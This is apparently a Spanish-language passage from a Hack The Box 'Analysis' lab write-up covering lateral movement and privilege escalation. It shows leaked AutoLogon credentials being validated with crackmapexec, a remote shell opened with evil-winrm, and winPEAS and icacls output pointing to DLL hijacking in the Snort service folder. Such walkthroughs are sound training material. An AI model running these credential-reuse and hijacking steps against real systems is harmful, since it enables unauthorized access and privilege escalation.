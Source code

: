 # Movimiento Lateral

En nuestro resultado encontramos credenciales:

```bash
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  analysis.htb.
    DefaultUserName               :  jdoe
    DefaultPassword               :  7y4Z4^*y9Zzj
```

intentamos ver si este usuario es válido para conectarse a través de evil-winrm.

```bash
> crackmapexec winrm 10.10.11.250 -u 'jdoe' -p '7y4Z4^*y9Zzj' 
SMB         10.10.11.250    5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
HTTP        10.10.11.250    5985   DC-ANALYSIS      [*] http://10.10.11.250:5985/wsman
WINRM       10.10.11.250    5985   DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
```

es válido.

```bash
evil-winrm -i 10.10.11.250 -u 'jdoe' -p '7y4Z4^*y9Zzj'

Privilege Escalation

si volvemos a ejecutar winpeas podemos ver lo siguiente:

Evil-WinRM* PS C:\Users\jdoe\Documents> C:\Users\jdoe\Documents\winpeas.exe

<SNIP>
Snort(Snort)[C:\Snort\bin\snort.exe /SERVICE] - Autoload - No quotes and Space detected
    Possible DLL Hijacking in binary folder: C:\Snort\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])

<SNIP>
```

Así que SNORT es una herramienta para la prevención de intrusiones y, asumo, que debe ejecutarse con algún tipo de privilegios para ello. Parece que atacar el servicio SNORT podría ser un camino potencial para la escalada de privilegios.

La comprobación de permisos con icacls muestra que podemos escribir en estos archivos:

```poweshell
Evil-WinRM* PS C:\Users\jdoe\Documents> icacls C:\Snort\lib\snort_dynamicengine

C:\Snort\lib\snort_dynamicengine AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                                 BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                                 BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                                 BUILTIN\Utilisateurs:(I)(CI)(AD)
                                 BUILTIN\Utilisateurs:(I)(CI)(WD)
                                 CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\jdoe\Documents> icacls C:\Snort\lib\snort_dynamicpreprocessor

C:\Snort\lib\snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                                       BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                                       BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                                       BUILTIN\Utilisateurs:(I)(CI)(AD)
                                       BUILTIN\Utilisateurs:(I)(CI)(WD)
                                       CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

```